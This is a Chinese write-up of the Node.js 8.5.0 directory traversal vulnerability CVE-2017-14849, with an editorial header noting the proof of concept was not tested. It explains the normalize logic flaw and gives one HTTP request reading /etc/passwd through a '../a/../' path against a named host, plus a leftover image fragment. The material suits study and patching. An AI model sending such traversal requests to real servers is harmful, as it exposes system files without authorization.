

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：8.5.0，文字8.6修复

代码与实验材料：单GET和图片，Host为站点域名未占位；无环境说明

来源证据范围：Vulhub链接有转义#，未注明上游文字作者

- **代码与转录边界（1）**：图片语法污染和实例目标未占位；依据：图片后重复Node.js目录穿越漏洞/media/rId24.png)；Host:www.0-sec.org。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-14849）Node.js 目录穿越漏洞
======================================

一、漏洞简介
------------

原因是 Node.js 8.5.0
对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node
8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

二、漏洞影响
------------

Node.js 8.5.0

三、复现过程
------------

    GET /static/../../../a/../../../../etc/passwd HTTP/1.1
    Host: www.0-sec.org:3000
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

Node.js目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/node/CVE-2017-14849/
